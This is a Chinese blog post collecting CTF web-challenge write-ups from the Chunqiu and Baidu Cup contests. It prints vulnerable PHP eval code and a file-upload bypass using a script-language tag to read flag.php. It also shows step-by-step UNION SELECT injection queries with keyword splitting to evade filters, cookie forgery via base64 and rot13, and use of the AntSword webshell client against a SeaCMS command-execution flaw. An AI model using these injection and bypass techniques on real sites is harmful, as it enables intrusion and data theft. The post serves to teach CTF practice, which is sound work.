





<!--yml
category: 未分类
date: 2022-04-26 14:46:09
-->

# 春秋web题目解题及思路汇总（自用搜集）_香草星冰乐的博客-CSDN博客

> 来源：[https://blog.csdn.net/Devil_B/article/details/106081517](https://blog.csdn.net/Devil_B/article/details/106081517)

## (Misc-Web)爆破-2

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__); 
```

**题目知识点：**
file_get_contents(path)函数，获得指定路径下的文件内容，以字符串的形式返回出来。
eval(str)函数，把括号里的字符串，当作php命令来执行。
**解题思路：**
这一题，把一个file_get_contents()函数命令赋值给$a传入var_dump()中。var_dump()函数就是把这个命令以字符串的形式返回，进入到嵌套的eval函数里面，让eval函数来执行这行命令。

```
http: 
```

## (Misc-Web)爆破-1

```
分值：10分 类型：Misc Web已解答 题目： flag就在某六位变量中。 

<?
php include "flag.php"; 
$a = @$_REQUEST['hello'];  
if(!preg_match('/^\w*$/',$a ))  
{                               
    die('ERROR'); 
} 
eval("var_dump($$a);"); 
show_source(__FILE__); 
?> 
```

**解题预备知识：**
两个符的含义，在php语言中，变量名可以用另一个变量来表示。如下面的代码中，$a=“b”，那么
a就等于b，则输出b的值 “hello world!”

```
<?php
$a='b';
$b="hello world!";
eval("var_dump($$a);");
?> 
```

*   在php语言中，所有的已经定义的变量都会保存在GLOBALS全局数组中，比方说你定义了一个 n a m e = " 李 华 " ， 那 么 name="李华"，那么 name="李华"，那么GLOBALS[‘name’]就等于“李华”。就是说，你可以通过这个全局数组来访问任何一个变量，所有已经定义过的变量都可以在里面通过变量名索引得到。
*   R E Q U E S T 数 组 里 面 包 括 了 _REQUEST数组里面包括了 R​EQUEST数组里面包括了_GET[]和$_POST[]，也就是说，通过这个数组中，可以访问另外两个传值方式里面，所有传过的值。

preg_match函数返回值为匹配到的次数。

**解题流程：**
审计代码可以知道，我们可以用GET传值方式（?hello=），来给a赋值，最后会输出(我传给$a的值)。
想到上面的GLOBALS知识，那就之间传入GLOBALS，让把所有的变量都打印出来。最后，得到flag。

```
http: 
```

————————————————
版权声明：本文为CSDN博主「江judge」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/qq_41281571/article/details/81268393

## CTF || [“百度杯”CTF比赛 九月场]Upload

**题目内容：**想怎么传就怎么传，就是这么任性。tips:flag在flag.php中

**解题预备知识：**
上传文件漏洞，再上传文件时会过滤掉特殊字符。在本次题目中过滤掉了<?和小写的php。
例如：

```
<?php
$myfile = fopen("../flag.php", "r") or die("Unable to open file!");
echo fread($myfile,filesize("../flag.php"));
fclose($myfile);
?> 
```

查看上传文件为：

```
$myfile = fopen("../flag.", "r") or die("Unable to open file!"); 
echo fread($myfile,filesize("../flag.")); 
fclose($myfile); 
?> 
```

**解决措施：**
尝试用<scrpt language=“PHP” 绕过并将php大写。
**解题流程：**

```
<script language="PHP">
$myfile = fopen("../flag.".strtolower("PHP"), "r") or die("Unable to open file!");
echo fread($myfile,filesize("../flag.".strtolower("PHP")));
fclose($myfile);
</script> 
```

*   上传该文件
*   点击上传成功，按f12查看源代码，即可。

**问题：**在链接蚁剑时失败了？

## “百度杯”CTF比赛 九月场SQL

**题目内容：**出题人就告诉你这是个注入，有种别走！

**解题预备知识：**
salmap的使用：在使用时我发现没有发现注入点。怎么回事，随后进行手工注入发现被过滤了。如果有人想用sqlmap的话要先写脚本，不会看看大佬的。
https://blog.csdn.net/cbhjerry/article/details/84134569

sql手工注入：我在墨者学院上发现一个特别基础的，手工注入，分享给大家。
https://www.mozhe.cn/news/detail/324
可以先看一下。

hackbar:在网页输入url小工具

**解题思路：**

```
?id=1 and 1=1 
```

显示原网页，存在注入漏洞。

*   判断字段，用order by,但是发现这些 被过滤了，在中间加个<>这次我也学到了。

```
?id=1 ord<>er by 3 
```

by 4的时候不显示，说明只有3个字段。

*   查看显示字段，用union select，当然也被过滤了。

```
?id=1 union sele<>ct 1,2,3 
```

显示结果2，说明在第二个字段显示

```
?id=1 union sele<>ct 1,database(),3 
```

显示 sqli

```
?id=1 union sele<>ct 1,group_contact(table_name),3 from information_schema.tables where table_schema='sqli' 
```

显示：info,users

```
?id=1 union sele<>ct 1,group_contact(column_name),3 from information_schema.columns where table_name='info' 
```

显示：id,title,flAg_T5ZNdrm

```
?id=1 union sele<>ct 1,flAg_T5ZNdrm,3 from info 
```

显示：自己做

## CTF-2017第二届广东省强网杯线上赛：who are you?

```
<?php
include "flag.php";
$a = @$_REQUEST['hello'];
eval( "var_dump($a);");
show_source(__FILE__); 
```

**题目内容：**
我是谁，我在哪，我要做什么？
**解题思路：**

*   看到这题首先我想大概是cookie的问题，然后尝试用burpsuite抓包发现其cookie值为`Cookie: role=Zjo1OiJ0aHJmZyI7`，应该是要解码，就用burpsuite自带的解码器解码，但是我对base64解码的结果不熟悉，并没有发现什么。

*   Base64解密`Zjo1OiJ0aHJmZyI7`,得到内容是`f:5:"thrfg“`。看了攻略之后发现还要rot13解码，学到了。推荐一个rot13在线解码网址：https://rot13.com/

*   `f:5:"thrfg”`用rot13解码为`s:5:"guest"`，于是替换guest为admin得`f:5:"nqzva"`再对其base64加密为`Zjo1OiJucXp2YSI7`

*   对burpsuite内容修改，弹出新网页提示：Hello admin, now you can upload something you are easy to forget

*   查看源码：`<!-- $filename = $_POST['filename']; $data = $_POST['data']; -->`我们需要上传木马。现在有两个选择1:burpsuite发送到repeater，但是不知道为什么我接下来的操作一直失败。2:用hackbar提交木马，这个成功了。哎，学人家都学不来，自己太菜了。

*   

*   点击execute，得出flag所在网址。

## “百度杯”CTF比赛 九月场 Test

**题目内容：**
善于查资料，你就可以拿一血了。
**知识点：**
看到一个海洋视频网站，对于一个小白来说，我就去注册登陆了。。。。。。
发现并没有什么用就看了参考。附上找到的资源，因为我是mac所有就用了中国蚁剑。
海洋漏洞：https://www.freebuf.com/vuls/150042.html
中国蚁剑：https://www.freebuf.com/sectool/98681.html

**解题步骤：**

*   在search.php页面中有一个命令执行漏洞，通过在浏览器post提交，即可通过中国蚁剑链接。链接密码就是你上传的参数cmd。

```
http: 
```



*   在文件中找了半天没找打，查看参考说在数据库，害，找到藏有数据库信息的文件。
    
*   使用中国蚁剑自带的方式链接数据库，如下图：
    
*   即可发现flag:
    